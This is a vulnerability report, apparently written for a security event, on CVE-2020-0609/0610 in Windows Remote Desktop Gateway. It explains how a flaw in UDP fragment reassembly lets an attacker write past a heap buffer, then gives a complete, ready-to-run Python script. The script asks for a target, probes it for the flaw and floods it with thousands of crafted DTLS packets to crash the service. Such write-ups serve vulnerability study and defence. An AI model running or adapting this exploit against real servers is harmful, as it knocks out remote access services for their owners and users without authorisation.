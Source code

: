 
<div align="center"><h1>CVE-2020-0609 and CVE-2020-0610 REPORT</h1></div>

## About the vulnerability

A remote code execution vulnerability exists in Windows Remote Desktop Gateway (RD Gateway) when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system.  
To exploit this vulnerability, an attacker would need to send a specially crafted request to the target systems RD Gateway via RDP.

**On versions:** Windows Server 2012, 2012 R2, 2016, 2019

## Explanation

The RDG UDP protocol splits the message into multiple packets to transport them. Since UDP is connectionless these packets can arrive in any order. The packets are reassembled at the recipient using the packet headers `fragment_id`, `num_fragments`, `fragment_length`. The function implemented to reassemble the packets has some bugs which lead to this vulnerability.

To summarize the packet reassembly algorithm used : we first allocate memory on the heap to act as a buffer and then divide this buffer into many sections of size (= `max_fragment_size`). Now whenever a packet arrives, we check if we have received that fragment before using its id, if we have not received that fragment before we copy its contents to the buffer. we copy the entirety of the fragment to the address (`&buffer + fragment_id * max_fragment_size`). Later when all packets have arrived we simply concatenate all the sections and end up with the actual message.

The problem arises because the size of all the sections required to hold all the packets may be much more than the actual size of the message and therefore the buffer. Thus we can write data on the heap outside the memory which was allocated for us, overwriting other important data this causes the process to run into errors and crash leading to a DoS.

Say the message length is 500, max fragment size is 1000
we can have two packets
```
packet (id=0) : length = 300
packet (id=1) : length = 200
assigned buffer size is 1000
packet 0 is written to the buffer at offset 0 (0 * max_fragment_size) and,
packet 1 is written to the buffer at offset 1000 (1 * max_fragment_size)
```
We can see that packet 1 is written beyond the memory assigned to the buffer and this leads to an overflow even though the buffer was big enough to hold the message.

## Exploit

```
import struct
import ssl
import sys
import signal
from socket import socket, AF_INET, SOCK_DGRAM
from dtls import do_patch, sslconnection

target = input("=> Target website/IP address : ")
port = int(input("=> Port number : "))

#Creating and wrapping SSL socket and establishing connection with target
def open_socket(target1, port1):
    socket1 = ssl.wrap_socket(socket(AF_INET, SOCK_DGRAM))
    setattr(socket1, "ssl_version", sslconnection.PROTOCOL_DTLSv1)
    socket1.connect((target1, port1))
    return socket1

#Creating packets for checking presence of vulnerability and also for DoS attack
def dos_packet(frag_no, frag_id):
    frag = "A" * 2000
    buffer1 = struct.pack("<HHHHH", 5, 2006, frag_id, frag_no, 2000)
    buffer1 += frag.encode()
    return buffer1

#Check if the server is vulnerable
do_patch()
socketA = open_socket(target, port)
packetA = dos_packet(100, 0)
socketA.write(packetA)
signal.signal(signal.SIGALRM, lambda signum, frame: None)
signal.alarm(5)
vuln = False

try:
    response = socketA.recv(16)[-4:]
    value = struct.unpack("<L", response)[0]
    vuln = value != 0x8000ffff
except:
    vuln = True
signal.alarm(0)
socketA.close()

#If vulnerable, Initiating DoS attack
if vuln:
    print("Target is vulnerable.\nInitiating DoS attack.")
    do_patch()
    for i in range(5000):
        socket1 = open_socket(target, port)
        for j in range(10):
            packet = dos_packet(i, i)
            socket1.write(packet)
        socket1.close()

else:
    print("Target not vulnerable.")
```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall3/chall3/exploit_CVE-2020-0609.py)

This exploit was tested on Windows server 2019 and performs DOS on Windows server 2019.

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=0jWB87UaN10)

